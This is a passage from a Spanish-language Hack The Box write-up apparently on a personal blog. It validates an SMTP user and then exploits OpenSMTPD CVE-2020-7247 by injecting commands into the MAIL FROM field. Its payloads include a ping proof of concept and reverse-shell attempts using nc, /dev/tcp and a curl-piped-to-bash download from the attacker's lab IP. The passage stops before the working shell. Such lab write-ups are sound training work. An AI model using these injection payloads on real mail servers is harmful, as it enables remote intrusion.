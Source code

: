 * [Validando usuarios manualmente en el servidor **SMTP** - ippsec video](https://www.youtube.com/watch?v=ob9SgtFm6_g&t=1150s)

Hacemos una trama normal, solo que en el receptor ponemos el usuario que creemos válido y otro que probablemente no, la respuesta es la clave:

![310proxy_validate_nakazawaUSERsmtp](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/tentacle/310proxy_validate_nakazawaUSERsmtp.png)

Perfecto, entonces sabemos que es una dirección de correo válida, ahora si exploremos la explotación...

* [CVE-2020-7247 Privileged Remote Code Execution / Command Injection](https://www.rangeforce.com/blog/cyber-security-training-module-cve-2020-7247-priviledged-remote-code-execution-os-command-injection).
* [OpenSMTPD Privilege Escalation Code Execution](https://packetstormsecurity.com/files/156137/OpenBSD-OpenSMTPD-Privilege-Escalation-Code-Execution.html).
* [OpenSMTPD Remote Vulnerability](https://blog.firosolutions.com/exploits/opensmtpd-remote-vulnerability/).
* [Exploit - github.com/superzerosec/CVE-2020-7247](https://github.com/superzerosec/cve-2020-7247).

**(El exploit de `github.com/superzerosec` es funcional, pero en mis primeros intentos no logre que funcionara (por una tontada que veremos adelante y que se me olvido probar) asi que lo deje a un lado y empece a buscar otras formas)**.

En el primer recurso nos muestra una forma sencilla de explotar la vulnerabilidad, en el que le agregaríamos al remitente el código que queramos ejecutar:

> Ejemplo del articulo:
>> MAIL FROM:<; killall puppies ; echo >

> Nuestro ejemplo:
>> MAIL FROM:<;ping -c 1 10.10.14.138;sh>

Lo que quiero lograr es ver si la máquina nos hace una petición `ICMP`, asi que pongámonos en escucha por la interfaz donde esta nuestra IP (en este caso la de HTB, `tun0`) y filtremos por las capturas **ICMP**:

```bash
❭ tshark -i tun0 -Y "icmp" 2>/dev/null
```

Y ejecutamos:

![310bash_proxy_telnet_poc_withping](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/tentacle/310bash_proxy_telnet_poc_withping.png)

Perfecto, tenemos ejecución remota de comandos, intentemos ejecutarnos una Reverse Shell (JA)...

Intentando cositas como:

> MAIL FROM:<;ping -c 1 10.10.14.138;id | nc 10.10.14.138 4433;>
>> Obtenemos la peticion `ICMP` pero nada en nuestro listener `nc`.
> MAIL FROM:<;ping -c 1 10.10.14.138;bash -i >& /dev/tcp/10.10.14.138/4433 0>&1;>
>> Nos da un error de que no es valido el caracter `&`.
> MAIL FROM:<;ping -c 1 10.10.14.138;curl http://10.10.14.138/revsh.sh | bash;>
>> No obtenemos ninguna peticion en nuestro servidor.

Y bueno otras pruebas, nada... Despues de varios intentos fallidos, volvi a la web y encontre uno de los recursos que referencie antes, en el que nos indican el por que no estamos obteniendo la Shell:
